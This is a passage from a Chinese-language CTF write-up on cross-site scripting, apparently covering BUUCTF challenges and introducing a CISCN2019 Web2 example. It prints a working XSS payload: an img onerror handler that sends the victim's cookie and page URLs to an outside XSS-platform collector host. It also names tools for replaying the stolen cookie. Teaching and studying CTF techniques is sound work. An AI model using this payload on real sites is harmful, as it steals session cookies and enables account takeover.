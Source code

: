 [HTML `<img>` 标签](https://www.w3school.com.cn/tags/tag_img.asp)
[HTML 事件属性](https://www.w3school.com.cn/tags/html_ref_eventattributes.asp)

- 使用 buuctf 的 xss Platform 提供的代码构造 payload:

```js
<img
  src="11111"
  onerror="(function(){(new Image()).src='http://xss.buuoj.cn/index.php?do=api&id=PxBBHs&location='+escape((function(){try{return document.location.href}catch(e){return ''}})())+'&toplocation='+escape((function(){try{return top.location.href}catch(e){return ''}})())+'&cookie='+escape((function(){try{return document.cookie}catch(e){return ''}})())+'&opener='+escape((function(){try{return (window.opener && window.opener.location.href)?window.opener.location.href:''}catch(e){return ''}})());})();"
/>
```

工具：
[EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg)
或[brupsuite](https://portswigger.net/burp)修改请求的 cookie

---

## 例题 2 **[CISCN2019 华东北赛区]Web2**

- 考察点：储存型 XSS 与过滤绕过、sql 注入

---

![](img/web2-xss-1.png)
